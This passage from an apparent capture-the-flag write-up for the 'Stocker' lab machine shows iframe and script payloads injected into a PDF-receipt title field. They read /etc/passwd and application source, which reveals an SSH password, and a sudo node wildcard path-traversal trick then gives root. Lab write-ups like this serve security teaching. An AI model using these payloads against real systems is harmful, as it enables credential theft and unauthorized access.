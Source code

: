  ![image](https://user-images.githubusercontent.com/93153300/213291545-257dc788-97b4-4d1f-857a-6f969bee2fe6.png)
 ![image](https://user-images.githubusercontent.com/93153300/213291574-eeaea8fb-4702-42e9-b888-da13e3c53eb1.png)

Step 4: Change the ‘title’ from ‘Axe’ to: <iframe src='file:///etc/passwd' width='600' height='1000'></iframe>

![image](https://user-images.githubusercontent.com/93153300/213291608-7530303b-7ca9-4bed-9729-ea8a514e5c73.png)
 
Step 5: Forward the request.  The website shows: 

![image](https://user-images.githubusercontent.com/93153300/213291667-7cfc430b-cc1f-46db-bda3-c4f158b8eccb.png)
 
Click on ‘here’ to generate the pdf receipt: 

![image](https://user-images.githubusercontent.com/93153300/213291702-e6060885-d953-4964-b8cc-b416183f2cf6.png)
 
We find that the pdf includes the file /etc/passwd.  The site is vulnerable to xss to local file inclusion.   <br>
The file /etc/passwd shows that their is a user by the name of ‘angoose’.  

Find the path that the dev.stocker.htb site is using.  Replace the previous iframe for /etc/passwd with: “title”:”<script>document.write(document.location.href)</script>” <br>
The pdf generated shows the path is /var/www/dev.  

Use the xss to lfi to read the source code to the file /var/www/dev/index.js.  Replace the previous script for the path with: "title":"<iframe src='file:///var/www/dev/index.js' width='600' height='1000'></iframe>", <br>
The pdf shows:
 
![image](https://user-images.githubusercontent.com/93153300/213291770-1c83474b-1e0d-4f76-be7b-1e9d2df6827f.png)


The source code to the file index.js shows a password of ‘IHeardPassphrasesArePrettySecure’.  Try to ssh into the user angoose with that password: ssh angoose@stocker.htb → enter password when prompted

It worked, we have shell as user angoose.  We can get the flag in /home/angoose/user.txt

____________________________________________________
<b>Privilege Escalation</b><br>
Run the command sudo -l
 
![image](https://user-images.githubusercontent.com/93153300/213291900-754ad2e6-ac9a-416d-b5de-cb330a6146b6.png)

This sudo command is insecure.  The sudo command pretty much gives us the ability to run any js file we want as root.  We don’t have write permissions in /usr/local/scripts/ but we can bypass this easily because of the wildcard before the ‘.js’.  We can run sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/anyfile.js.  

To make matters easier, the directory /home/angoose/ contains a file called flag.js:
 
![image](https://user-images.githubusercontent.com/93153300/213291923-93b6ce6e-5a63-49da-922e-c5b1f7989081.png)
 
This file already contains the js code needed to get the root flag.  To get the root flag run the command: sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/flag.js
